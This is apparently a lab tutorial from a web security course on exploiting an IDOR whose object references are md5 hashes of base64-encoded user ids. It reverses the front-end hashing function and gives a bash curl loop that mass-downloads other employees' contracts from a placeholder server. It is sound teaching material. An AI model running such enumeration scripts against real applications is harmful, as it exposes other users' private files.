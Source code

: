 # Bypassing Encoded References

In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the `Employee Manager` web application to test the `Contracts` functionality:

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>http://SERVER_IP:PORT/contracts.php</p></figcaption></figure>

If we click on the `Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it is sending a `POST` request to `download.php` with the following data:

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an `md5` format. Hashes are one-way functions, so we cannot decode them to see their original values.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the `md5` hash of our `uid`, and see if it matches the above hash:

```shell-session
$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash. In advanced cases, we may also utilize `Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches. In this case, the `md5` hash could be for a unique value or a combination of values, which would be very difficult to predict, making this direct reference a `Secure Direct Object Reference`. However, there's one fatal flaw in this web application.

***

## Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

```shell-session
$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

{% hint style="info" %}
**Tip:** We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.
{% endhint %}

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

***

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

```shell-session
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

```shell-session
$ bash ./exploit.sh
$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.
